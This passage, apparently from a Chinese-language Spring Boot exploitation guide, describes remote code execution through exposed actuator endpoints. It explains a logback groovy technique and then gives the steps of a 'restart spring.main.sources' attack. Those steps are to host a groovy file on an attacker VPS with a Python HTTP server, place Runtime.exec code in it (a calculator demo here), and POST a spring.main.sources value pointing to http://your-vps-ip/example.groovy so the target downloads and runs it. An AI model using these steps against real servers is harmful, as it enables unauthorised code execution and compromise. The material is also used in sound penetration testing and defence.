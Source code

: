 1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
4. 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

#### 漏洞环境

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```url
http://127.0.0.1:9098/actuator/env
```

### 0x0B：restart spring.main.sources groovy RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出

#### 利用方法

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的  `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("open -a Calculator")

```

##### 步骤二：设置 spring.main.sources 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```
